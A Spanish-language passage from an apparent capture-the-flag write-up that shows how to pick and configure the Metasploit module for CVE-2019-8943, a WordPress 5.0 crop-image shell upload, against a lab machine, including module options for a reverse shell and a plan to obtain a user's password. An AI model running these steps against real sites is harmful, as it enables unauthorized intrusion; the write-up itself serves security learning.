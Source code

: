 **Conclusión del paso:**

Hemos identificado un vector de ataque de alta prioridad. Para explotarlo, necesitamos obtener las credenciales de un usuario. Esto nos lleva al siguiente paso: usar el nombre de usuario que encontramos en el Paso 5 (`karenwheeler` o `karen`) para obtener una contraseña.

---

# Paso 8: Preparación del Exploit en Metasploit

Para confirmar la funcionalidad y los requisitos del exploit CVE-2019-8943, utilizamos el *framework* de Metasploit.

## 8.1 Búsqueda y Selección del Módulo

Dentro de la consola de Metasploit (`msfconsole`), buscamos módulos relacionados con WordPress 5.0:

<img width="784" height="677" alt="usamos metsploit para buscarlo" src="https://github.com/user-attachments/assets/411f2edd-9b98-48ec-8180-07a724211aef" />

```bash
msf > search wordpress 5.0.0
````
El resultado confirma la existencia del módulo compatible:
````
#,Name, Disclosure Date, Rank, Check,Description
0,exploit/multi/http/wp_crop_rce,2019-02-19,`excellent, Yes, WordPress Crop-image Shell Upload
````
Seleccionamos el módulo para su uso:
````
msf > use 0
# O
msf > use exploit/multi/http/wp_crop_rce
````
8.2 Análisis de Opciones Requeridas

Al revisar las opciones del módulo (show options), confirmamos los parámetros necesarios para la ejecución:

<img width="935" height="508" alt="vemos las opciones del exploit" src="https://github.com/user-attachments/assets/84c16dcc-73fa-471f-886d-345c14462d08" />

````
Opción,Requerido,Descripción
RHOSTS,yes,La IP de la máquina objetivo (10.10.30.133).
RPORT,80,El puerto de destino.
TARGETURI,yes,La ruta base de la aplicación de WordPress (normalmente /).
USERNAME,yes,El nombre de usuario de WordPress para autenticarse.
PASSWORD,yes,La contraseña del usuario para autenticarse.
LHOST,yes,Nuestra IP de la máquina atacante.
LPORT,4444,El puerto de escucha para la reverse shell.
````
Requisito Crítico Confirmado:

El exploit es inútil sin un par de USERNAME y PASSWORD válidos. Nuestro siguiente paso debe ser obtener estas credenciales.

---